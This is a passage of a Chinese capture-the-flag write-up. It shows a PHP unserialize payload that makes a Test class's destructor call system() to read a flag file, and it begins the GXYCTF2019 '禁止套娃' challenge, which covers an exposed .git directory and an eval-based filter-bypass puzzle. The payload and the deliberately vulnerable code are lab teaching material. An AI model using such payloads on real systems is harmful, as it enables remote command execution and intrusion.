 ```php
}
?>
```

有一个 Test 类, 猜测是反序列化

通过 `__destruct` 执行命令可以绕过检测, 而刚好 unserialize 没有被过滤

payload 如下

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251707093.png)
## [GXYCTF2019]禁止套娃


![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251748275.png)

试了一堆目录和文件, 试出来 .git 目录

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208251749578.png)

index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

`/[a-z,_]+\((?R)?\)/` 匹配的是类似于 `a(b(c()))` 的字符串, 要求替换之后的字符串全等于 `;`
